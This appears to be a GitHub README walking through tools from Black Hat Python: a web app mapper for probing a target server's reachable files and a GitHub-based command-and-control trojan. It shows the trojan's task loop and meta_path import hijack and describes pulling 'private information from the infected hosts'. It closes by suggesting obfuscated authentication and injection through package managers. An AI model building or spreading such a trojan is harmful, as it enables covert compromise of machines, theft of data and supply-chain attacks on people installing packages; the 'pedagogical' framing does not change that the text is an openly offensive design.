 #Hackery in Python 

The below is me going through the parts that I liked best from Black Hat Python by Justin Seitz.

##Web app mapper

Suppose we're trying to compromise a server for which we know the target url then we can hunt for all the files that are reachable on the remote target in the hopes of finding some way to gain root access by inspecting the local file structure of the project.

###Usage

target is the the url of the host you are trying to hack into
directory is the source code of the app you downloaded 
[filters] filters out unwanted file types
```
python web_app_mapper target directory num_threads [filters]
```

###How it works

You need to perform an ```os.walk(directory)``` and push to a queue every path you find.

Then for each element of the queue, send a simple request and inspect the path of the response. The path of the response might reveal sensitive information that you can use to conduct your attack.

###Pwned

![Make sure this doesn't work on your server](./pwn.png)


##Github Trojan

This repo follows the exposition of Black Hat Python Chapter 7: "Github Command
and Control" by Justin Seitz, it is intended for pedagogical purposes only.

##Usage
Add a username, password, repo and branch and then run

```
python git_trojan.py
```

###How it works

Override functionality of meta_path to GitImporter so that if module is not found locally then our module is used instead.

```
sys.meta_path = [GitImporter()]
```

Next, queue in tasks from a generated config file 
```
while True:

    if task_queue.empty():

        config = get_trojan_config()

        for task in config:
            t = threading.Thread(target=module_runner,args=(task['module'],))
            t.start()
            time.sleep(random.randint(1,10))

    time.sleep(random.randint(1000,10000))
```

```module_runner ``` runs the module and then stores the result as a github repo by just authenticating with the above credentials.

Finally, pull the changes from your machine to start receiving private information from the infected hosts.
```
git pull origin master
```

###Interesting things to do next

* Obfuscate authentication
* Think of how to inject this when people use package managers
